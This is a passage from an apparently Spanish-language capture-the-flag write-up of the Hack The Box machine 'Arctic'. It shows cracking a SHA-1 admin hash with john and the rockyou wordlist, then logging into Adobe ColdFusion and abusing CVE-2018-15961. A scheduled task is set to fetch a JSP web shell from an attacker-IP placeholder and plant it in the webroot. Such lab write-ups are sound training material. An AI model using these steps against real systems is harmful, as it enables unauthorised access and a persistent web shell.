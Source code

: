 ```bash
                                                                 
Possible Hashs:            
[+] SHA-1                                                        
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Observamos que se trata de *SHA-1*, ahora podemos crackear el hash para obtener la contraseña en texto claro; podríamos realizarlo mediante diversas formas, en este caso lo haremos a través de `john` y mediante el sitio web [Crackstation](https://crackstation.net/).

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 SSE2 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)
1g 0:00:00:00 DONE (2021-09-07 21:53) 14.28g/s 73085p/s 73085c/s 73085C/s jodie..gabita
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

![""](/assets/images/htb-arctic/arctic_crack.png)

Ahora ingresamos al panel de administración de *Adobe Coldfusion* con el password identificado. Investigando un poco, podemos encontrar que existe una vulnerabilidad de dicha tecnología asociada al CVE *[CVE-2018-15961](https://www.cvedetails.com/cve/CVE-2018-15961/ "CVE-2018-15961 security vulnerability details")* que podemos explotar subiendo un archivo en **java** en la sección de *DEBUGGING & LOGGING → Scheduled Tasks* y llenamos los siguientes campos:

- Task Name: k4mishell
- URL: http://̣̣<ip_atacante>/k4mishell.jsp (también podría ser un archivo de extensión *cfm*)
- Publish: check
- File: C:\coldfusion8\wwwroot\CFIDE\k4mishell.jsp (Se intuye que la aplicación se encuentra montada en la ruta *C:\coldfusion8\wwwroot\\*, por lo que incluimos el directorio *CFIDE* y el nombre de nuestro archivo)
